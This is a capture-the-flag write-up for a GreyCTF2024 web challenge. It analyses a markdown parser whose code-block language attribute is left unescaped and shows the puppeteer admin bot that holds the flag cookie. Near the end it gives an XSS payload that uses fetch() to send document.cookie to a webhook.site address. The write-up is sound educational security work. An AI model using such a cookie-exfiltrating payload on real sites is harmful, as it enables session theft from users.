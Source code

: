# Challenge source
[Souce code](https://drive.google.com/file/d/1pdmUFvfpbyYt6umN0GCsrsLy7Zo137GP/view?usp=drive_link)
# Difficulty
Medium

# Author
ocean

# Approach
- The web challenge is a webapp that allows us to parse markdown document:

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/af1c9d1b-9e4d-4575-9f31-0bb7d906c525)

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/3e977db7-1d77-43ce-a2c3-009082fa5ac0)

- Looking at the source code, I see *admin.js* using puppeteer to create an admin bot to receive our markdown. So this challenge requires XSS:
  
  ```javascript
  const puppeteer = require('puppeteer')

  const visitUrl = async (url, cookieDomain) => {
      let browser =
          await puppeteer.launch({
              headless: true,
              pipe: true,
              dumpio: true,
              ignoreHTTPSErrors: true,
              args: [
                  '--incognito',
                  '--no-sandbox',
                  '--disable-gpu',
                  '--disable-software-rasterizer',
                  '--disable-dev-shm-usage',
              ]
          })
  
      try {
          const ctx = await browser.createIncognitoBrowserContext()
          const page = await ctx.newPage()
  
          try {
              await page.setCookie({
                  name: 'flag',
                  value: process.env.FLAG || 'flag{fake_flag}',
                  domain: cookieDomain,
                  httpOnly: false,
                  samesite: 'strict'
              })
              await page.goto(url, { timeout: 6000, waitUntil: 'networkidle2' })
          } finally {
              await page.close()
              await ctx.close()
          }
      }
      finally {
          browser.close()
      }
  }
  
  module.exports = { visitUrl };
  ```

- Looking at *index.js*, we have some points to notice about:

  1. The markdown we submit via POST request will be base64 encoded:

  ```html
  <script>
            document.getElementById('markdownForm').addEventListener('submit', function (event) {
                event.preventDefault();
                const input = document.getElementById('markdownInput').value;
                const encodedInput = btoa(input);
                window.location.href = '/parse-markdown?markdown=' + encodeURIComponent(encodedInput);
            });
  </script>
  ```

  3. At endpoint */parse-markdown*, the markdown will be base64 decoded and parsed by function *parseMarkdown*:

  ```javascript
  app.get('/parse-markdown', (req, res) => {
    const base64Markdown = req.query.markdown;
    if (!base64Markdown) {
        return res.status(400).send('No markdown content provided');
    }

    try {
        const markdown = atob(base64Markdown);
        console.log(markdown)
        const html = parseMarkdown(markdown);
        console.log(html)
        res.render('view', { content: html });
    } catch (error) {
        console.error(error);
        res.status(500).send('Error parsing markdown');
    }
  });
  ```

  4. At */feedback* endpoint, we send to the admin bot the URL that link to endpoint */parse-markdown* (with our markdown notation):

  ```javascript
  app.get('/feedback', async (req, res) => {
    const url = req.query.url
    console.log('received url: ', url)

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        res.send(escape(e.message))
        return
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol != 'https:') {
        res.send('Please provide a URL with the http or https protocol.')
        return
    }

    if (parsedURL.hostname !== req.hostname) {
        res.send(`Please provide a URL with a hostname of: ${escape(req.hostname)}, your parsed hostname was: escape(${parsedURL.hostname})`)
        return
    }

    try {
        console.log('visiting url: ', url)
        await visitUrl(url, req.hostname)
        res.send('The admin has viewed your feedback!')
    } catch (e) {
        console.log('error visiting: ', url, ', ', e.message)
        res.send('Error, admin unable to view your feedback')
    } finally {
        console.log('done visiting url: ', url)
    }

  })
  ```

- Looking at *markdown.js*, look like it just a normal text parsing function, except a point that it has a character sanitization function. They use this to sanitize my markdown to prevent XSS attack:

```javascript
function escapeHtml(text) {
    return text
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#039;');
}
```

- When I take a closer look at *parseMarkdown()*, I see that the *language** variable is not sanitized. If you don't know, most of platforms that support users to write markdowns also support syntax highlighting at md notation, by allow people to specifiy the language used.

```javascript
if (line.startsWith('```')) {
  language = line.substring(3).trim();
  inCodeBlock = true;
  htmlOutput += '<pre><code class="language-' + language + '">';
}
```

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/d41a96a5-57b3-438d-b659-341d3d9ad44f)

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/05051323-8c68-4884-9d19-4f66df739c58)

- Since we can control the languague, XSS is possible.

# Attack
- First, I have to make a POC. This is my payload:
```
```"><script>fetch("https://webhook.site/your-id-here/?cookie="+document.cookie)</script><"```
```

- I also add a cookie for test:

  

- Flag: grey{m4rkd0wn_th1s_fl4g}
